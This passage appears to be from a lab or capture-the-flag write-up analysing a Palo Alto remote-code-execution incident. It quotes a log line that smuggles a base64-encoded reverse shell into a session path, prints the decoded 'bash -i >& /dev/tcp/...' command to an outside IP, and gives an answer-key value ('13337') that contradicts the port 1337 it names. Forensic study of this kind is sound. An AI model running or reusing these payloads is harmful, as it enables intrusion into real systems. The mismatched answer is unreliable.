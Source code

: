 Though, I would argue that the first event attempting a reverse shell is on port `1337`.
{% highlight json %}
{"level":"error","task":"9-22","time":"2024-04-21T22:20:27.581852267-07:00","message":"failed to unmarshal session(/../../../../opt/panlogs/tmp/device_telemetry/minute/aaa`echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4xNjIuMTY0LjIyLzEzMzcgMD4mMQ==|base64${IFS}-d|bash`) map , EOF"}
{% endhighlight %}

{% highlight bash %}
bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
{% endhighlight %}

{% include item.html type="answer" id="4" description=page.question_4 answer="13337" %}

## Question 5
{% include item.html type="question" id="5" question=page.question_5 %}
The blog post explains how running-config.xml may be exfiltrated, and we find a base64 encoded command
![Q5 Config copy](/img/cd/blueyard/paloaltorce/q5_exfil.png)
